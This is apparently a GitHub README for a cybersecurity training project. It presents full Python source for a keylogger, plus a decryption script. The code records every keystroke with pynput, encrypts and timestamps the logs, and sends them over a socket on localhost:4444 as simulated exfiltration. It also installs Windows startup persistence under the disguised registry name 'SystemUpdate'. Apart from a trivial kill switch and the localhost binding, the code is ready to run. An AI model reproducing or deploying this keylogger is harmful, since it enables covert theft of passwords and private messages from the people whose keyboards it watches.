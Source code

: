 # Elevate-Labs-Final-Project-Submission---Keylogger

**Keylogger with Encrypted Data Exfiltration**       
**Objective:** Build a proof-of-concept keylogger that encrypts logs and simulates exfiltration.    

**Tools:** Python, pynput, cryptography, base64     
**Mini Guide:**
a. Capture keystrokes using pynput.     
b. Encrypt data using cryptography.fernet.    
c. Store logs locally with timestamp.       
d. Simulate sending to a remote server (localhost).    
e. Add startup persistence and kill switch.    

![image](https://github.com/user-attachments/assets/9eddcf20-65db-4d5b-a457-fb6a1ee65073)

![image](https://github.com/user-attachments/assets/1787008b-f066-41a7-821b-d97105ae4197)

![image](https://github.com/user-attachments/assets/60fe28d4-6bbe-436a-baa3-fa645d883e95)


**Deliverables: Encrypted Keylogger PoC with Ethical Constraints and Logs**

### 1. **Main Python Script**

**Filename:** `keylogger.py`     
**Contains:**

* Fernet key generation and loading
* Keystroke capture using `pynput`
* AES encryption of logs
* Log writing with timestamps
* Localhost TCP exfiltration using sockets
* Kill switch (`q!exit`)
* Windows startup persistence via registry

```python
import os
import socket
import threading
import base64
from pynput import keyboard
from cryptography.fernet import Fernet
from datetime import datetime
import platform

# CONFIGURATION 
KEY_FILE = "key.key"
LOG_FILE = "encrypted_log.txt"
KILL_SWITCH = "q!exit"
log = ""

# Generate or Load Encryption Key
def generate_key():
    key = Fernet.generate_key()
    with open(KEY_FILE, "wb") as f:
        f.write(key)

def load_key():
    if not os.path.exists(KEY_FILE):
        generate_key()
    with open(KEY_FILE, "rb") as f:
        return f.read()

key = load_key()
fernet = Fernet(key)

# Encrypt and Write Logs
def encrypt_log(data):
    return fernet.encrypt(data.encode())

def write_log(encrypted_data):
    with open(LOG_FILE, "ab") as f:
        f.write(encrypted_data + b"\n")

# Capturing Keystrokes    
def on_press(key):
    global log
    try:
        k = key.char
    except AttributeError:
        k = f"[{key}]"
    
    log += k

    if KILL_SWITCH in log:
        print("[*] Kill switch triggered. Stopping keylogger.")
        return False

    if len(log) >= 10:
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        data = f"[{timestamp}] {log}"
        encrypted = encrypt_log(data)
        write_log(encrypted)
        log = ""

# Simulate Exfiltration Server 
def simulate_exfiltration():
    def server():
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            s.bind(("localhost", 4444))
            s.listen(1)
            print("[*] Exfiltration server running on localhost:4444")

            conn, addr = s.accept()
            print(f"[+] Connected from {addr}")

            with open(LOG_FILE, "rb") as f:
                for line in f:
                    try:
                        conn.sendall(line)
                    except (ConnectionResetError, ConnectionAbortedError) as ce:
                        print(f"[!] Connection closed by client: {ce}")
                        break
                    except Exception as e:
                        print(f"[!] Unexpected error: {e}")
                        break

            conn.close()
            s.close()

        except Exception as e:
            print(f"[!] Server error: {e}")

    threading.Thread(target=server, daemon=True).start()

# Windows Startup (Persistence)    
def add_startup():
    if platform.system().lower() == "windows":
        try:
            import winreg as reg
            file_path = os.path.realpath(__file__)
            key = reg.HKEY_CURRENT_USER
            key_value = r"Software\Microsoft\Windows\CurrentVersion\Run"
            open_key = reg.OpenKey(key, key_value, 0, reg.KEY_ALL_ACCESS)
            reg.SetValueEx(open_key, "SystemUpdate", 0, reg.REG_SZ, file_path)
            reg.CloseKey(open_key)
            print("[*] Persistence added to startup.")
        except Exception as e:
            print(f"[!] Persistence error: {e}")

# Starting Keylogger     
def start_keylogger():
    add_startup()
    simulate_exfiltration()
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()

if __name__ == "__main__":
    print("[*] Starting Keylogger...")
    start_keylogger()

```

### 2. **Generated Key File**

**Filename:** `key.key`    
**Purpose:** Stores the Fernet symmetric encryption key.

### 3. **Encrypted Log File**

**Filename:** `encrypted_log.txt`    
**Contains:** 
Encrypted, timestamped keystroke entries.    

![image](https://github.com/user-attachments/assets/62caff5a-ddcd-4717-8e44-b33aa052944d)    
These are encrypted keystroke logs, sent from our keylogger to the local server (localhost:4444).


### 4. **Decryption Script (optional)**

**Filename:** `decrypt_logs.py`    
**What it does:** Reads `key.key` and `encrypted_log.txt`, decrypts entries, and displays readable logs.

```python
from cryptography.fernet import Fernet

with open("key.key", "rb") as key_file:
    key = key_file.read()

fernet = Fernet(key)

with open("encrypted_log.txt", "rb") as log_file:
    for line in log_file:
        try:
            decrypted = fernet.decrypt(line.strip()).decode()
            print(decrypted)
        except Exception as e:
            print(f"Failed to decrypt: {e}")
```


